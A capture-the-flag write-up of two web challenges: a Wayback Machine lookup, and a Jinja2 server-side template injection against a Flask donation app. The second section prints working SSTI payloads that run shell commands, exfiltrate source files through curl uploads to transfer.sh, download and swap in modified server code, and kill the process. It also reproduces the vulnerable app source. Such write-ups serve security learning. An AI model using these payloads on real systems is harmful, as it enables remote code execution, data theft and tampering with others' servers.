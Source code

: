 ```yaml
---
title: Web
description: A collection of problems related to websites/web exploitation
template: doc
---
```


There were two question related to website analysis and exploitation.

---
## Back To Time

### Original Link
We were provided with the following link:
https://clickme.herocharge.repl.co/

### Approach
If you open the file, you will be greeted by a Click Me button that will always run away from you.
![Clickme](../../../assets/clickme.png)

After that is you open DevTools, you will get access to the link that the hyperlink leads it to:
https://clickme.herocharge.repl.co/flag.html

Which shows the following message:
```
There used to be a flag here. only if i could travel back in time to see it. 
```

![way](../../../assets/wayback.png)

You only need to open the link in the wayback machine and there will be a snapshot of it which will have the flag.

https://web.archive.org/web/20220616185603/https://clickme.herocharge.repl.co/flag.html

The flag is:
```
CTF{waaaaaybaaaaackmaaaaachine} 
```

---
## Charity

### Link
This was the most challenging and interesting challenge of the CTF. But sadly I dont have access to the original link.
However we have managed to get hold of the files that were used in making the website, how to do it can be explained later.

### Approach
The home page looked like this:
![home](../../../assets/home_page.png)

After we created a team and logged in:
![team](../../../assets/team_page.png)

You cannot press the button that many number of times you will either crash the server which is hosted in Replit or get blocked by the Rate Limit checker.

We then tried creating a team with the same name and noticed that the progress got restarted every single time. Then we went to devtools and understood that there was a POST request being sent that increased the progress every single time we clicked the button to Donate. It did not have any payload that we could modify and therefore it turned out to be a dead end.

We then understood that we had to fiddle with the team name/password to try some sort of injection. From here we understood that is was a classic case of SSTI (`Server Side Template Injection`) in Jinja2/Flask.

We verified this by sending the below payload in the team name.
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

This returned the following webpage:
![Injection1](../../../assets/injection1.png)

Now we tried a lot to fiddle with the stuff happening. We also understood that as there was no storage element in the entire website, the values stored were all while the code was running and would be reset if someone restarded the code. So we had to get our hands on the code.

Another thing we noticed is that `/` were not allowed in the team name because it would mess up with the paths due to nature of the post request. Instead we used the unicode format of the character `\u002f`

To get our hands on the main.py function we used the following command:
```
{{config.__class__.__init__.__globals__['os'].popen('curl --upload-file main.py https:\u002f\u002ftransfer.sh').read()}}
```
We got our hands on the main.py file
![main](../../../assets/transfer_main.png)

It had the following code:
```python
from flask import Flask, render_template, request, redirect, url_for, render_template_string
import time
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

app = Flask(__name__)
# app.config['LIMITER_REQUEST_LIMIT'] = 10  # Maximum number of requests allowed
# app.config['LIMITER_REQUEST_PERIOD'] = 60  # Time period (in seconds)
# app.config['LIMITER_KEY_FUNC'] = lambda: request.remote_addr  # Rate limiting based on user's IP
limiter = Limiter(app=app, key_func=lambda: request.remote_addr)
# Replace this with a more secure way of storing user data in a production app
teams = {}

@app.route('/')
def home():
  return render_template('home.html')


@app.route('/create_team', methods=['POST'])
def create_team():
  team_name = request.form.get('team_name')
  password = request.form.get('password')
  teams[team_name] = {'password': password, 'progress': 0}
  return redirect(url_for('team', team_name=team_name))


@app.route('/join_team', methods=['POST'])
def join_team():
  team_name = request.form.get('team_name')
  password = request.form.get('password')
  if team_name in teams and (teams[team_name]['password'] == password
                             or teams[team_name]['password'] == "1234"):
    return redirect(url_for('team', team_name=team_name))
  else:
    return "Invalid team name or password"


@app.route('/team/<team_name>', methods=['GET', 'POST'])
@limiter.limit("20 per minute")
def team(team_name):
  if request.method == 'POST':
    teams[team_name]['progress'] += 1
  return render_template_string('''
                        <!DOCTYPE html>
                        <html>
                        <head>
                            <title>Team Progress</title>
                            
                        </head>
                        <body>
                            <header>
                                <h1>Team Progress</h1>
                            </header>
                            <div class="content">
                              <div class="team">
                                  <h2>Welcome to Team {} '''.format(
      team_name) + '''</h2>
                                  <div class="progress">
                                      <p>Goal: 1200000000000000000 Progress:</p>
                                      <div class=\"progress-bar\" style="width: '''
                                + str(teams[team_name]['progress']) +
                                '''%;">''' +
                                str(teams[team_name]['progress']) + '''%</div>
                                  </div>
                                  <form action=\"/team/''' + team_name +
                                '''\" method="post">
                                      <input type="submit" value="Donate 1 Coin">
                                  </form>
                                <p>Make a post on insta with a screenshot of reaching the goal and tag the hacking club with and we will dm you the flag after verifying</p>
                              </div>
                            </div>
                        </body>
                        </html>
                        ''')
  return render_template('team.html',
                         team_name=team_name,
                         progress=teams[team_name]['progress'])


if __name__ == '__main__':
  app.run(debug=False, host="0.0.0.0", port=80)
```

So we knew that the only thing we had to do was to remove this main.py, replace it and then kill the server. So to do it we just wanted to try it out. However, to try it out we also needed the templates folder.

```
{{config.__class__.__init__.__globals__['os'].popen('tar -cf - templates | xz -9ze -T0 > templates.tar.xz').read()}}

```
Then we saw this:
![Injection2](../../../assets/injection2.png)

Then we accessed the files using:
```
{{config.__class__.__init__.__globals__['os'].popen('curl --upload-file templates.tar.xz https:\u002f\u002ftransfer.sh').read()}}
```

Which gave us to access to the files:
![Injection3](../../../assets/injection3.png)

This gave us access to the the files required to run the replit ourselves to test our changes. The code is still available at:
https://replit.com/@AdithyaKishor/ctf

All we had to do now was delete the main.py upload our malicious main.py and then kill the server. The thing you have to keep in mind is that replit restarts itself if we kill it this way and therefore, our plan should be able to succeed without failure.

We added the following code to our main.py:
```python
teams['winners'] = {'password':'12345678', 'progress': 1200000000000000000}
```

So that when we signed in, we already reached the goal required.

We uploaded the modified code to transfer.sh and then did the following:
```
{{config.__class__.__init__.__globals__['os'].popen('rm main.py && curl https:\u002f\u002ftransfer.sh\u002fqE5ITI3IEr\u002fmain.py -o main.py').read()}}
```

This command deletes the code in the replit and replaces it with ours. However, we are still not done. We have to make the server restart.

For that we had to find the process id of the entire process:
```
{{config.__class__.__init__.__globals__['os'].popen('ps a').read()}}
```
![injection4](../../../assets/injection4.png)

You can either use the process id or use a replit feature in which kill 1 kills the server.
Now to kill the file:
```
{{config.__class__.__init__.__globals__['os'].popen('kill 402').read()}}
```
Wait for quite a while and keep on refereshing the original website.
All you have to do now is to wait for the repl to restart.

The login using the credentials `winner` and `12345678`

We sent the screenshot and got this flag:
![final](../../../assets/final.png)

You can get the files for trying it out yourself here: https://replit.com/@AdithyaKishor/ctf

The flag is:
```
0xCTF{Ph0r_4_9R347_K4uZ3_900D_j08_0n_r34CH1N'_73h_904L}
```